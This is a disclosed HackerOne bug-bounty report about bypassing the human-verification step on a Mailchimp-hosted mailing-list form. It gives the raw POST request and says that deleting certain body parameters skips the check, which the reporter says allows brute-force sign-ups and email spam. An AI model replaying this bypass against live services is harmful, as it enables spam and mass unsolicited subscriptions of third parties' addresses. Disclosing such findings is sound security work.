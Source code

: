 # Bypassing Verify Humans Page

## Report Details
- **Report ID**: 242874
- **URL**: https://hackerone.com/reports/242874
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-06-24T11:54:04.384Z
- **Disclosed**: 2020-02-23T16:22:57.512Z

## Reporter
- **Username**: suvrat7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stellar

## Vulnerability Information
Hi Team,
I was able to bypass verify Human dialog Box , while subscribing .
Vulnerable request:
====================
```
POST /subscribe/post HTTP/1.1
Host: stellar.us9.list-manage.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 264
Referer: https://stellar.us9.list-manage.com/subscribe/post?u=c001d97369b7a10d224c23867&id=563f658d41&SIGNUP=community
Cookie: _AVESTA_ENVIRONMENT=prod; PHPSESSID=5kid70ckbbvfpshmvoc6m7vqr1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

u=c001d97369b7a10d224c23867&id=563f658d41&b_name=&b_email=&b_comment=&MERGE0=codelover16%40gmail.com&MERGE1=su&MERGE2=ascas&group%5B17489%5D%5B1%5D=1&submit=Subscribe+to+list&ht=8cad8bee67974ea68255fd9b15685974905f31d8%3AMTQ5ODMwMTUyNS43ODA4&mc_signupsource=hosted
```
Steps to reproduce:
====================
1. Delete Body param
```
&MERGE1=su&MERGE2=ascas&group%5B17489%5D%5B1%5D=1&submit=Subscribe+to+list&ht=8cad8bee67974ea68255fd9b15685974905f31d8%3AMTQ5ODMwMTUyNS43ODA4&mc_signupsource=hosted
```
2 . And you will be able to bypass human authentication

Impact
====================
1. This request can be brute forced , which can result to Bringing down and Spamming the Email server.
2. I was able to verify multiple accounts by changing **MERGE0** with different email addresses using same **u=** and **id=** param.

Thanks,
Suvrat(codelover16)


## Attachments
No attachments
